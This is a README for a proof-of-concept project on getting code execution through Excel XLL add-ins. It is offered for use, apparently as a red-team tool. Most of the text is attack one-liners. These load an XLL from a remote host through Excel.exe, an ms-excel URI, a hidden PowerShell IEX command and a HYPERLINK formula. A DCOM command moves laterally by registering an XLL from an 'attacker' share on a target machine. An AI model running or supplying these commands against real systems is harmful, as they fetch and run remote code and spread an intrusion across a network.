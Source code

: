 # xllpoc
## Code Exec via Excel
A small project that aggregates community knowledge for Excel XLL execution, via xlAutoOpen() or PROCESS_ATTACH. 

### Getting Exec
Put your code in either,
```
dllmain.cpp
PROCESS_ATTACH

XLL_POC.cpp
xlAutoOpen()
```
#### Some various execution techniques 
Excel
```
Excel.exe http://foo.com/xll.xll
```
uri
```
ms-excel:ofe|u|http://foo.com/xll.xll
```
Everyones favourite oneliner 
```
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"
```
Embedded in the Worksheet (xll cant be found)
```
=HYPERLINK("http://foo.com/xll.xll", "CLICK")
```
#### Lateral movement from @buffaloverflow
```
PS>[activator]::CreateInstance([type]::GetTypeFromCLSID("{CLSID}, tgt")).RegisterXLL("\\attacker\xll.xll")
```


### Credit   
- EdParcell: https://github.com/edparcell/HelloWorldXll  
- MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx  
- Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52  
- Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ  
- MWR Labs: https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/
- @SubTee: 
- @buffaloverflow: https://twitter.com/buffaloverflow/status/888427071327916032
